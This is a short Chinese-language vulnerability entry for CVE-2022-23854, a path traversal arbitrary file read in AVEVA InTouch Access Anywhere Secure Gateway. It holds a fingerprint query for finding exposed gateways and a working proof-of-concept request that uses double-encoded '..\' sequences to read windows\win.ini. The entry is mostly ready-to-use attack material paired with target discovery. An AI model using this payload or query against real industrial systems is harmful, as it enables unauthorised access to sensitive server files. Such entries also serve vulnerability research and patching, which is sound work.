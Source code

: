 # AVEVA InTouch安全网关 AccessAnywhere 任意文件读取漏洞 CVE-2022-23854

## 漏洞描述

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2及以前的版本存在路径遍历漏洞，未授权的攻击者可利用该漏洞获取服务器敏感信息。

## 漏洞影响

```
AVEVA InTouch安全网关
```

## 网络测绘

```
body="InTouch Access Anywhere"
```

## 漏洞复现

登录页面

![image-20221017170909794](images/202210171709863.png)

验证POC

```
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![image-20221017170935596](images/202210171709651.png)